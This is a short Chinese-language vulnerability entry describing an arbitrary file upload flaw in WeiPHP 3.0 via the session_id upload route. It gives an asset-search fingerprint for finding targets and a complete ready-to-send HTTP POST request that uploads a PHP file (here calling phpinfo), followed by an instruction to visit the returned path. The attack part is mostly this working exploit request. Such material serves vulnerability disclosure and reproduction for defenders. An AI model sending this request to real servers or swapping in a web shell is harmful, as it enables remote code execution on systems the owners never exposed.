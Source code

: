 # WeiPHP3.0 session_id 任意文件上传漏洞

## 漏洞描述

WeiPHP3.0 session_id 存在任意文件上传漏洞，攻击者通过漏洞可以上传任意文件

## 漏洞影响

<a-checkbox checked>WeiPHP3.0</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="weiphp"</a-checkbox></br>

## 漏洞复现

登陆页面标识

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1628213492648-3347796e-a88d-4455-909a-f5d8f4ac047f.png)

发送请求包上传文件

```php
POST /index.php?s=%2FHome%2FFile%2Fupload%2Fsession_id%2Fscevs8hub3m5ogla05a421hb42.html HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Content-Length: 831
Content-Type: multipart/form-data; boundary=------------------------e37a54d7d5380c9f
Accept-Encoding: gzip

--------------------------e37a54d7d5380c9f
Content-Disposition: form-data; name="download"; filename="882176.php"
Content-Type: application/octet-stream

<?php
phpinfo();

--------------------------e37a54d7d5380c9f--
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1628213649320-464f9e3a-8b64-46b2-b4f8-4afc74fdb3e3.png)

获取目录后访问回显的 path

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1628213733752-1746e894-4003-47eb-b50b-6d374133443c.png)



